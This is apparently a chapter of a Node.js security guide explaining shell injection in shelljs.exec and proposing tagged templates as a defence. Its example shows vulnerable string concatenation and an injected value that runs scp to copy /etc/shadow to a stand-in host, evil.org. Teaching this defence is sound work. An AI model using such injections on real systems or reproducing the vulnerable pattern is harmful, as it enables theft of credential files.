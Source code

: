 # Shell injection

Threats: [SHP][]

The `shelljs` module ([npm][shelljs]) allows access to the system
shell.  We focus on `shelljs`, but similar arguments apply to builtins
like `child_process.spawn(cmd, { shell: ... })` ([docs][cp.spawn]) and
similar modules.

`shelljs` has some nice programmatic APIs for common shell commands
that escape arguments.

It also provides `shell.exec` which allows full access to the shell
including interpretation of shell meta characters.

Solving [shell injection][SHP] is a much harder problem than query
injection since shell scripts tend to call other shell scripts, so
properly escaping arguments to one script doesn't help if the script
sloppily composes a sub-shell.  The problem of tools that trust their
inputs is not limited to shell scripts: see discussion of image decoders
in [BOF][].

The shell grammar ([docs][shell grammar]) has more layers of
interpretation so is arguably more complex than any one SQL grammar.

We can do much better than string concatenation though.  The code
below is vulnerable.

```js
shelljs.exec("executable '" + x + "'")
```

If an attacker causes

```js
x = " '; scp /etc/shadow evil@evil.org/; echo ' ";
```

then what gets passed to the shell is

```js
executable ' '; scp /etc/shadow evil@evil.org/; echo ' '
```

Instead, consider:

```js
shelljs.exec`executable ${x}`

shelljs.exec`executable '${x}'`
```

This use of tagged templates is roughly equivalent to

```js
shelljs.exec(["executable ", ""], x)

shelljs.exec(["executable \'", "\'"], x)
```

This way, when control reaches `shelljs`, it knows which strings came
from the developer: `["executable ", ""]`, and which are inline
expressions: `x`.  If `shelljs` properly escapes the latter, it
prevents the breach above.

The accompanying example ([code][sh-code]) includes a tag
implementation for `sh` and `bash` that recognizes complex nesting
semantics.

We can't, working within the confines of Node, prevent poorly written
command line tools from breaking when exposed to untrusted inputs, but
we can make sure that we preserve the developer's intent when they
write code that invokes command line tools.  For projects that have
legitimate reasons for invoking sub-shells, consistently using
template tags like this solves some problems and makes it more likely
that effort spent hardening command line tools will yield fruit.

[shell grammar]: http://pubs.opengroup.org/onlinepubs/9699919799/utilities/V3_chap02.html#tag_18_10
[shelljs]: https://www.npmjs.com/package/shelljs
[cp.spawn]: https://nodejs.org/api/child_process.html#child_process_child_process_spawn_command_args_options
[SHP]: ../chapter-1/threat-SHP.md
[BOF]: ../chapter-1/threat-BOF.md
[sh-code]: https://github.com/google/node-sec-roadmap/tree/master/chapter-7/examples/sh
